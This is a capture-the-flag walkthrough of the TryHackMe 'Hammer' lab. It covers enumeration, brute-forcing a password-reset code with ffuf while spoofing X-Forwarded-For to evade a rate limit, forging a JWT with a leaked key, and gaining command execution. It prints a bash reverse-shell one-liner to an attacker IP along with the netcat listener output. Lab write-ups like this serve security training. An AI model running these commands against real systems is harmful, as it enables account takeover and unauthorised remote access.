 ```yaml
---
title: "TryHackMe - Hammer"
author: Nasrallah
description: ""
date:  00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, medium, jwt, ffuf]
img_path: /assets/img/tryhackme/hammer
image:
    path: hammer.png
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---

[Hammer](https://tryhackme.comr/r/room/hammer) from [TryHackMe](https://tryhackme.com/signup?referrer=603949780215185dfb191142).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 9d:0e:ad:74:e4:c2:50:52:b6:be:66:5c:5d:0f:ae:41 (RSA)
|   256 72:80:68:5e:ed:db:e4:29:c9:73:76:88:41:03:cc:08 (ECDSA)
|_  256 0e:42:88:82:fd:7e:0f:60:0c:32:a0:20:02:bf:e3:fe (ED25519)
1337/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

We found 2 open ports, 22 running OpenSSH and 1337 Running Apache web server.

### Web

Let's navigate to the website.

![loginpage](1.png)

We got a login page here, no default credentials work neither sql injection.

I check the source code and found the following.

![directory_naming_convention](2.png)

We got a naming convention of the web directories.

Let's run a directory scan.

```bash
ffuf -c -w /usr/share/wordlists/dirb/common.txt -u http://10.10.168.191:1337/hmr_FUZZ
```

```terminal

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.168.191:1337/hmr_FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

css                     [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 120ms]
images                  [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 115ms]
js                      [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 143ms]
logs                    [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 306ms]
```

We found the interesting directory `/hmr_logs`.

Navigating to that directory we find a log file leaking an email address.

![email](3.png)

We can use this email address with the reset password function.

After submitting the email we get the following page.

![recovery_code](4.png)

We need to submit a recovery code of four numbers that is sent to the email, but we can try brute forcing the code.

Let's check the request on burp.

![brup](5.png)

We make a post request to `reset_password.php` with the parameters `recovery_code` and `s`.
> s stands for the seconds left before the code gets expired.

We can also notice another interesting header on the response.

![retelimit](6.png)

There is a rate limit with a number that decreases every request, when reaching 0 we get the message `Rate limit exceeded. Please try again later.`

To bypass this rate limit we can add the `X-Forwarded-For` header.

![x-forwarded-for](7.png)

We managed to bypass the limit, not only that but we are not even required to enter an ip address, a number just works. Let's start the attack,

Let's create a list of 4 numbers.

```bash
seq 1000 9999 > nums.txt
```

Now we use craft our ffuf command.

```bash
ffuf -c -X POST -w nums.txt -u "http://10.10.168.191:1337/reset_password.php" -d "recovery_code=FUZZ&s=337" -H "Cookie: PHPSESSID=lk587499qccskudk8o7jm1k63u" -H "Content-Type: application/x-www-form-urlencoded" -H "X-Forwarded-For: FUZZ" -fr "Invalid or expired recovery code"
```

You need to make a request to `reset password` page and copy the PHPSESSID for the command above.

```terminal
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.168.191:1337/reset_password.php
 :: Wordlist         : FUZZ: /home/sirius/ctf/thm/hammer/nums.txt
 :: Header           : Cookie: PHPSESSID=lk587499qccskudk8o7jm1k63u
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : X-Forwarded-For: FUZZ
 :: Data             : recovery_code=FUZZ&s=337
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Invalid or expired recovery code
________________________________________________

7650                    [Status: 200, Size: 2191, Words: 595, Lines: 53, Duration: 175ms]

```

We got the code, now let's submit it.

![reset](8.png)

Change the password and log in to the page.

![dashboard](9.png)

## **Foothold**

On the dashboard we find a form to submit a command. Submitting `whoami` we get a `command not allowed` and after a bit we get logged off automatically.

Let's continue on burp.

![burp](10.png)

We notice a `JWT` token and a `persistentSession` cookie which is probably the one responsible for logging us off.

Let's copy the JWT token and decode it on <https://jwt.io>

![jwt](11.png)

We can see a `role` and `kid` keys that we can probably change.

Going back to the command functionality, one command that managed to give us output is `ls`.

![ls](12.png)

We found the key `188ade1.key`.

```bash
curl http://10.10.168.191:1337/188ade1.key
56058354efb3daa97ebab00fabd7a7d7
```

Now let's got back the the JWT and edit it.

![adminjtw](13.png)

Now we copy the encoded token and use it in burp.

![burp](14.png)

We managed now to execute os commands, let's get a shell.

```bash
bash -c '/bin/bash -i >& /dev/tcp/10.14.91.207/9001 0>&1'
```

```terminal
$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.14.91.207] from (UNKNOWN) [10.10.168.191] 58198
bash: cannot set terminal process group (749): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ip-10-10-168-191:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ip-10-10-168-191:/var/www/html$
```

Here ends the room with no privilege escalation unfortunately.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

## References
